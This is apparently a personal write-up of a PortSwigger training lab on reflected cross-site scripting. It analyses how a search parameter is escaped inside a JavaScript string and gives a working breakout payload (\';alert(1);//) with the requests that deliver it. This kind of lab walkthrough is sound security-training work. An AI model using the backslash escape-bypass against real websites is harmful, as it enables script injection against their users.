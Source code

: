 # [Lab: Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-double-quotes-encoded-single-quotes-escaped)

## Lab

This lab contains a reflected cross-site scripting vulnerability in the search query tracking functionality where angle brackets and double are HTML encoded and single quotes are escaped.

To solve this lab, perform a cross-site scripting attack that breaks out of the JavaScript string and calls the `alert` function.

## Analysis

request:

  ```http
  GET /?search='"/\<> HTTP/1.1
  ```

- resqonse:

  ```js
  <script>
      var searchTerms = '\'&quot;/\&lt;&gt;';
      document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
  </script>
  ```

  - `'`: escaped (1)
  - `"<>`: html encoded
  - `/\`: nothing (2)

(1) + (2) => ez to bypass

## Solutions

request:

```http
GET /?search=\';alert(1);// HTTP/1.1
```

response: boom, lab solved
